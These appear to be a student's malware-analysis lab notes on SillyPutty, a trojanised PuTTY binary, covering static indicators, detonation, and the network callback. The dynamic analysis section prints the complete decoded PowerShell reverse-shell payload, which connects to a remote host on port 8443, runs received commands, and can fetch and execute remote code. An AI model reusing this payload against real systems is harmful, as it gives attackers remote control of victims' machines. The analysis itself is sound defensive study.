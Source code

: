 ```yaml
---
tags:
  - specimen
aliases: 
date-created: 2024-05-24
dg-publish: true
---
```

[[malware]] 
## Static Analysis 
---
### Basic Static Analysis
---
#### What is the SHA256 hash of the sample?
---
```
0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83 *putty.exe
```
#### What architecture is this binary?
---
Putty.exe have a 32-bit architecture.
#### Are there any results from submitting the SHA256 hash to VirusTotal?
---
VirusTotal flag putty.exe as malicious with 60/73 flags!
#### Describe the results of pulling the strings from this binary. Record and describe any strings that are potentially interesting. Can any interesting information be extracted from the strings?
---
The most notable strings found is:

![[SillyPutty.exe.png]]

Registry key manipulation.

As well as:

![[SillyPutty.exe-1.png]]

TCP Socket communications
#### Describe the results of inspecting the IAT for this binary. Are there any imports worth noting?
---

![[SillyPutty.exe-2.png]]

Most notable is **WriteFile**, **ShellExecuteA**, **Anti-Debugging** and **Registry Key Manipulation**
#### Is it likely that this binary is packed?
---
No, as the size of raw data is much larger than the virtual size:

![[SillyPutty.exe-3.png]]

### Basic Dynamic Analysis
---
#### Describe initial detonation. Are there any notable occurrences at first detonation? Without internet simulation? With internet simulation?
---
Without Internet Simulation, it opens up the PuTTY configuration but with Internet Simulation it does the same it opens up PowerShell for both.
#### From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this?
---
Using `procmon` and process file tree I found a powershell open up with the command in base64.

The decoded is into gunzip file and after removing some paramer such as `-hidden` command:

![[SillyPutty.exe-4.png]]

Using `cyberchef` and clicking the magic wand:


```PowerShell
function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}
powerfun -Command reverse -Sslcon true
```
#### What is the DNS record that is queried at detonation?
---
bonus2.corporatebonusapplication.local
#### What is the callback port number at detonation?
---
Port: 8443.
#### What is the callback protocol at detonation?
---
Based on the WireShark Output it is SSL/TLS
#### How can you use host-based telemetry to identify the DNS record, port, and protocol?
---
Using `procmon` with filter for `OPERATION: TCP`.

#### Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn?
---

![[SillyPutty.exe-5.png]]

A server using netcat since in the code `ssl` was applied in netcat we simply add `--ssl`

## Conclusion
---

